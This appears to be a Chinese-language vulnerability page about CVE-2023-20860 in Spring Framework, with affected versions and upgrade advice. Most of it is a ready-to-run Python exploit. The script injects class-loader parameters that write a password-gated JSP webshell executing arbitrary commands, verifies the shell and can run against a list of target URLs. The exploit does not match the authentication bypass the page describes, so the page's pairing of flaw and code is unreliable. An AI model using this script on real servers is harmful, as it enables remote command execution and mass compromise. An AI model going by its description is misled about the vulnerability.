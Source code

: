 # Spring Framework 安全绕过漏洞 CVE-2023-20860

# Spring Framework 安全绕过漏洞 CVE-2023-20860

## 漏洞描述

在带有 mvcRequestMatcher 的 Spring Security 配置中使用无前缀双通配符模式会导致 Spring Security 和 Spring MVC 之间的模式匹配不匹配，并可能导致安全绕过。

## 漏洞影响

```
6.0.0 - 6.0.6、5.3.0 - 5.3.25（注：5.3 之前的版本不受影响）
```

## 漏洞复现

exp

```
#!/usr/bin/env python3
#coding:utf-8

import requests
import argparse
from urllib.parse import urljoin

def Exploit(url):
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }
    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
    try:

        go = requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, 'tomcatwar.jsp')
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"漏洞存在，shell地址为:{shellurl}?pwd=j&cmd=whoami")
    except Exception as e:
        print(e)
        pass

def main():
    parser = argparse.ArgumentParser(description='Srping-Core Rce.')
    parser.add_argument('--file',help='url file',required=False)
    parser.add_argument('--url',help='target url',required=False)
    args = parser.parse_args()
    if args.url:
        Exploit(args.url)
    if args.file:
        with open (args.file) as f:
            for i in f.readlines():
                i = i.strip()
                Exploit(i)

if __name__ == '__main__':
    main()
```

## 漏洞修复

受影响用户及时更新升级到以下修复版本：

- Spring Framework >= 6.0.7
- Spring Framework >= 5.3.26

下载链接：https://spring.io/projects/spring-framework

